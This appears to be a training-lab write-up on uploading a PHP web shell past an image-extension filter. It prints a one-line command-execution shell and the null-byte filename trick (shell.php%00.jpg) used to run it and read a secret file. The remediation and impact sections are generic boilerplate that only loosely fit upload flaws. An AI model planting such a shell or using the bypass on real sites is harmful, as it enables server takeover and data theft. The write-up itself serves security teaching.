






# Web shell upload via obfuscated file extension

### Goal - 

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`

### Vulnerability / Concept

This lab demonstrates a web security vulnerability that can be exploited to compromise the application's security. The vulnerability allows an attacker to bypass security controls and perform unauthorized actions.

The core issue is a failure in the application's security architecture — either insufficient input validation, broken access controls, improper trust boundaries, or insecure handling of user-supplied data. Understanding the root cause is essential for both exploitation and remediation.

### Recon / Initial Analysis

1. Identify the attack surface — what user-controlled inputs exist (URL parameters, form fields, headers, cookies)
2. Analyze the application's behavior with unexpected input
3. Map the request flow and identify trust boundaries
4. Test for error messages that reveal implementation details
5. Compare authenticated vs unauthenticated behavior
6. Use Burp Suite Proxy to capture and analyze all requests
7. Check for hidden parameters using Burp Intruder or Param Miner

### Analysis/Exploitation -

Login as user `wiener`:

In the account settings, I can set both an email address and an avatar image for the user.

upload the PHP script  
`<?php system($_GET['cmd']); ?>`

Trying to upload a PHP script as avatar image leads to an error message telling me only some image files are allowed to upload: 

Send the upload request into Repeater so I can quickly experiment with multiple extension.

To bypass this, we can rename our web shell file to `webshell.php.jpg`:

We successfully uploaded the PHP web shell!

but the execution of command don’t work

How about using a null byte(`%00`) and append the `.jpg` extension?By doing that, the null byte will cancel out the `.jpg` extension.

The file get uploaded successfully with name webShell.php

Some attempts fail to upload or upload as images, including:

- double file extension (`shell.jpg.php`, `shell.php.jpg(it work but script don't execute)`)
- Bypass non recursive filtering (`shell.ph.phpp`)
- trying to split the command (`.php;.jpg`)

However, attempting to terminate the filename early with a null-byte (`shell.php%00.jpg`) proves successful:

now the execution of command is working

**Let’s **`cat`** the **`secret`** file**

### Why It Works

The vulnerability exists because the application fails to properly validate, sanitize, or authorize user input. The broken trust boundary allows an attacker to manipulate the application's behavior by injecting unexpected data that the server processes without adequate security checks.

### Real-World Impact

An attacker could exploit this vulnerability to:
- Access sensitive data belonging to other users
- Bypass authentication or authorization controls
- Perform unauthorized actions on behalf of legitimate users
- Potentially achieve remote code execution on the server
- Compromise the integrity or availability of the application

### Remediation

- Implement proper server-side input validation for all user-controlled data
- Use parameterized queries and prepared statements
- Enforce server-side authorization checks on every request
- Follow the principle of least privilege
- Implement security headers (CSP, X-Frame-Options, X-Content-Type-Options)
- Use a Web Application Firewall (WAF) as defense-in-depth
- Regularly test for vulnerabilities using automated scanners and manual testing

### Key Takeaways

- Never trust user-controlled input — validate and sanitize everything server-side.
- Security controls must be enforced server-side, not client-side.
- Understanding the vulnerability's root cause is essential for proper remediation.
- Burp Suite is essential for identifying and exploiting web vulnerabilities.
- Defense in depth — use multiple layers of protection, not just one.
